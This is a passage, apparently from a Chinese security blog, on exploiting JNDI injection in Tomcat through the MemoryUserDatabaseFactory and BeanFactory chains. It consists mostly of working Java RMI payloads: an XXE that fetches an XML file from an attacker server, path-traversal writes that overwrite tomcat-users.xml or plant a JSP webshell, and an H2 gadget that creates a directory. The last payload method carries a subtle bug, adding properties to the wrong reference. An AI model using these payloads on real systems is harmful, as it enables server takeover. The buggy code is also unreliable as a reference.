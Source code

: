 利用 payload 如下：
```java
    public static void AttackWithXXE() throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
                true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
        ref.add(new StringRefAddr("pathname", "http://127.0.0.1:9999/eval.xml"));
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo", wrapper);
        System.err.println("Server ready");
    }
```

#### RCE
这一条利用链较为复杂，可以达成文件写入的效果，写入 webshell 或者修改 tomcat-user.xml 文件都可以达成 RCE 的效果，利用 payload 如下：
```java
    public static void AttackWithAddTomcatUser() throws Exception {
        Registry registry = LocateRegistry.getRegistry(1099);
        ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
                true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
        ref.add(new StringRefAddr("pathname", "http://127.0.0.1:9999/../../conf/tomcat-users.xml"));
        ref.add(new StringRefAddr("readonly", "false"));
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo2", wrapper);
        System.err.println("Server ready");
    }

    public static void AttackWithWriteWebShell() throws Exception {
        Registry registry = LocateRegistry.getRegistry(1099);
        ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
                true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
        ref.add(new StringRefAddr("pathname", "http://127.0.0.1:9999/../../webapps/ROOT/test.jsp"));
        ref.add(new StringRefAddr("readonly", "false"));
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo3", wrapper);
        System.err.println("Server ready");
    }
```
在 windows 环境下上述的 payload 直接可用，但在 linux 环境下，需要提前创建 `CATALINA.BASE/http:/127.0.0.1:9999` 这个目录，具体原因可见浅蓝师傅的文章。创建目录使用到的是 H2 数据库中的 org.h2.store.fs.FileUtils.createDirectory 方法，但利用的还是 BeanFactory 这条利用链。**因此还是会受到高版本 tomcat 的限制**，寻找新的利用链创建目录可以绕过这个限制。
```java
    public static void CreateDirWithH2() throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);

        ResourceRef ref = new ResourceRef("org.h2.store.fs.FileUtils", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=createDirectory"));
        ref.add(new StringRefAddr("a", "../http:"));
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo", wrapper);

        ResourceRef ref1 = new ResourceRef("org.h2.store.fs.FileUtils", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=createDirectory"));
        ref.add(new StringRefAddr("a", "../http:/127.0.0.1:9999"));
        ReferenceWrapper wrapper1 = new ReferenceWrapper(ref1);
        registry.bind("Foo1", wrapper1);
        System.err.println("Server ready");
    }
```
